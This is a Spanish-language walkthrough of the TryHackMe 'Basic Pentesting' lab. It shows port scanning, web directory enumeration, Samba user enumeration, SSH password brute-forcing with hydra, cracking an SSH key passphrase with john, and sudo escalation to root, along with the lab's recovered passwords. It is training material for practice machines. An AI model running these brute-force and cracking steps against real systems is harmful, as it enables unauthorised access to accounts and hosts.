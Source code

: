 Vamos con la maquina Basic Pentesting, así nos muestra tryhackme el resumen de esta maquina:

In these set of tasks you'll learn the following:

- brute forcing 
- hash cracking 
- service enumeration
- Linux Enumeration

Empezamos con un scan a todos los puertos:

``` bash
sudo nmap -p- -Pn --min-rate 5000 10.10.32.85
```

``` bash
Nmap scan report for 10.10.32.85
Host is up (0.051s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8009/tcp open  ajp13
8080/tcp open  http-proxy
```

obtenemos varios puertos abiertos, escaneamos cada puerto para que nmap nos de las versiones de los servicios y haga scripts por defecto para enumerar los servicios:

1. **Find the services exposed by the machine:** 

``` bash
sudo nmap -p22,80,139,445,8009,8080 -sCV 10.10.32.85
```

``` shell
Nmap scan report for 10.10.32.85
Host is up (0.048s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesnt have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-title: Apache Tomcat/9.0.7
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2024-05-12T12:02:28-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-05-12T16:02:28
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s

```

enumeramos el servicio http para la primera respuesta de la maquina:

2. **What is the name of the hidden directory on the web server(enter name without /)?**

usaremos gobuster  para enumerar los directorios web:

``` bash
gobuster dir -u 10.10.32.85 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![gobuster-basicpentesting.png](assets/gobuster-basicpentesting.png)

la respuesta es: **development**


en el directorio development encontraremos un idexado de archivos 

![IndexDirBasicPents.png](assets/IndexDirBasicPents.png)

dev.txt:
```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```

j.txt:
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```

Aqui podemos deducir que hay dos ususarios, por ahora J y K y que J tiene una paswor debil, por lo que vamos a usar fuerza bruta en el servicio ssh con hydra.

**User brute-forcing to find the username & password**

**What is the username?**

Enumeraremos el servicio SAMBA con enum4linux:

``` bash
enum4linux <IP-TARGET>
```

y obtenemos el domain name:
``` bash
Domain Name: WORKGROUP
```

y los usuarios :
``` bash
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```

a acontinucion usamos hydra para hacer fuerza bruta con el ussuario Jan en el servicio ssh ya que en el mensaje que encontramos en el directorio development sabemos que tien una pass debil.

``` bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.32.85
```

y tras un largo cafe obtenemos la password
![passBasicPents.png](assets/passBasicPents.png)
 la respuesta es: **armando**


Entramos al servicio ssh como jan y tras recorrer las capretas de ususario entramos a la carpeta de kay y vemos esto

![dirKayBPENTS.png](assets/dirKayBPENTS.png)

entramos en la carpeta .ssh y vemos el id_rsa de kay

![is_rsaBSPENTS.png](assets/is_rsaBSPENTS.png)

asi que suaremos la herramienta john para obtener la contraseña del id_rsa, primero nos creamos un archivo pegando todo el id_rsa y con ssh2john hasheamos el id_rsa.

``` bash
nano kay_id_rsa
# copiamos dentro del nano el texto del id_rsa
ssh2john kay_id_rsa > hashjohn.txt
# despues usamos john para crackear la contraseña
/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt hashjohn.txt
```

![kayHash.png](assets/kayHash.png)

y obtenemos la contraseña: **beeswax**

entramos al ssh de kay usando su id_rsa:

![sshKay.png](assets/sshKay.png)

nos vamos al home de kay y leemos el archivo pass.bak, con esto obtenemos la ultima pregunta :
**What is the final password you obtain?**

```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$"
```

con esto ya estaria la maquina hecho pero vamos a hacernos root, con el ususario de kay hacemos un sudo -l para ver los permisos sudo que tenemos, ponemos la contraseña anteriormente encontrada y obtenemos esto

![PrivKay.png](assets/PrivKay.png)

tenemos permisos para todo, así que para ser ususario root lo tenemos que hacer el cambio de ususario :

```
sudo -su root
```

y obtenemos root:
![kayRoot.png](assets/kayRoot.png)

y ya estaría la maquina completamente vulnerada.

